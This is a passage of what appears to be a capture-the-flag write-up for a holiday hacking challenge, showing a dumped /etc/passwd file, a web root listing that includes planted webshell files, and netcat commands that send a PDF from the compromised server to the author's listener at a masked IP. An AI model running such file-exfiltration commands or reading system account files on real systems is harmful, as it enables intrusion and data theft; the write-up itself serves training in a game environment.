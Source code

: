 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
uuidd:x:105:109::/run/uuidd:/bin/false
ntp:x:106:110::/home/ntp:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
gke-ed150e57664e0ca33a0d:x:1000:1001::/home/gke-ed150e57664e0ca33a0d:/bin/bash
chris:x:1002:1003::/home/chris:/bin/bash
alabaster_snowball:x:1003:1004:Alabaster Snowball,,,:/home/alabaster_snowball:/bin/rbash
daniel:x:1004:1005::/home/daniel:/bin/bash
messagebus:x:108:112::/var/run/dbus:/bin/false
ron:x:1005:1006::/home/ron:/bin/bash
dpendolino:x:1006:1007::/home/dpendolino:/bin/bash
tkh16:x:1007:1008::/home/tkh16:/bin/bash
jeff:x:1008:1009::/home/jeff:/bin/bash
tom:x:1009:1010::/home/tom:/bin/bash
```

We can also, as prompted by question #2, look for the Great Book Page in the root of the webserver:

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$ cd /var/www/html
alabaster_snowball@l2s:/var/www/html$ ls -la
ls -la
total 1776
drwxrwxrwt 6 www-data           www-data              4096 Dec 20 06:04 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
-rw-r--r-- 1 alabaster_snowball alabaster_snowball     340 Dec 20 04:01 .quackquackhere.php
-rw-r--r-- 1 alabaster_snowball alabaster_snowball     344 Dec 20 05:46 .webshell.php
```

There it is! Now how to get it...

Well, one option is to start a netcat listener on my local machine:

```
root@kali:~$ nc -l -p 6666 > GreatBookPage2.pdf
```

And to then feed in the book from the server:

```
alabaster_snowball@l2s:/var/www/html$ nc xx.xx.xx.xx 6666 < GreatBookPage2.pdf
```
